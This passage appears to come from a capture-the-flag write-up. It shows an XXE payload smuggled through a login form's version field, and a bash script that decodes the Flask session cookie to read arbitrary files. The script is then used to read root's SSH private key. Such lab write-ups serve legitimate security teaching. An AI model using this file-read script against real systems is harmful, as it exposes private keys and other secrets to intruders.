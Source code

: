 
That is a solid looking XXE payload that tries to read `root.txt`. Now I need
to put this into my browser and visit the page. I suspect the flag will be in
the “Welcome, [here]”. It worked:

![image-20210517171106925](https://0xdfimages.gitlab.io/img/image-20210517171106925.png)

#### Script Improvements

I want to automate this a bit more, so I’ll add to the script to pull out the
returned XXE value. I’ll also adjust the arguments now that I have the XXE
down to just take a filepath:

    
    
    #!/bin/bash
    
    
    cookie=$(curl -s -v -X POST 'http://127.0.0.1:8888/login' --data-urlencode "username=&test;" --data-urlencode "version=1.0.0 -->
                                                                                       
    <!DOCTYPE root [<!ENTITY test SYSTEM '"$1"'>]><!--" -x http://127.0.0.1:8080 2>&1 |
        grep Set-Cookie | 
        cut -d'=' -f2 |
        cut -d';' -f1)
    >&2 echo "[+] Got cookie: $cookie"
    >&2 flask_session_cookie_manager3.py decode -c $cookie | 
        cut -d"'" -f2 | 
        jq -r '.lxml." b"' | 
        base64 -d | 
        base64 -d
    
    >&2 echo
    curl -s -x http://127.0.0.1:8080 -b "session=$cookie" http://127.0.0.1:8888/site |
        pup '#welcome text{}' | 
        sed 's/Welcome, //g'
    

This will use `pup` to get the text from the welcome tag, and `sed` to remove
the welcome text. It also prints messages to stderr so that I could redirect
stdout to a file to get just the file locally.

### SSH

There’s an SSH key in `/root/.ssh`:

    
    
    oxdf@parrot$ bash read-file.sh /root/.ssh/id_rsa
    [+] Got cookie: .eJxtjrtugzAYRl-lYu5gSLJEykKwSZza1MYX8AZyJBJ-CC1IuSnvXjp06_jpO0c6zwBuHQTrZ_BWB-tAY048vinRUiPt1JsutEfL7vXOnSpNliodYq_DRBSSmUR-iGhYVISSTEsru5vUwLdHu79nKqayZ8vcGKtCR2piCo32VwtNxjCkCgbDDE0N4XHdXh95704sJJFKV9mxI0lWxJU8w6p8UFJDPLLtJAQySM383Kc5nkSOh6g8c3lAfBDWU4Hw0rY-ZQR-_3mTPtc8dggSoZrW4tVYRiisUlqYfDrUQMfywSUP4yRT5MzArcouTD0Z_vOb2e-s8blPScG3E5c7H5WmyRxAoXvZmIf4FhH88YwBvTjsydz35RfuXCuIHBboU2w2wes9GC6nfhqDNXr9AEzMfps.YKLoCA.TTzUd0uj4a9H1eDGdwMkMSd2ibI
    b'{"lxml":{" b":"UENFdExTQkJVRWtnVm1WeWMybHZiaUF4TGpBdU1DQXRMVDRLQ2p3aFJFOURWRmxRUlNCeWIyOTBJRnM4SVVWT1ZFbFVXU0IwWlhOMElGTlpVMVJGVFNBbkwzSnZiM1F2TG5OemFDOXBaRjl5YzJFblBsMCtQQ0V0TFNBdExUNEtQSEp2YjNRK0NpQWdJQ0E4WkdGMFlUNEtJQ0FnSUNBZ0lDQThkWE5sY201aGJXVStKblJsYzNRN1BDOTFjMlZ5Ym1GdFpUNEtJQ0FnSUNBZ0lDQThhWE5mWVdSdGFXNCtNRHd2YVhOZllXUnRhVzQrQ2lBZ0lDQThMMlJoZEdFK0Nqd3ZjbTl2ZEQ0PQ=="},"points":0}'
    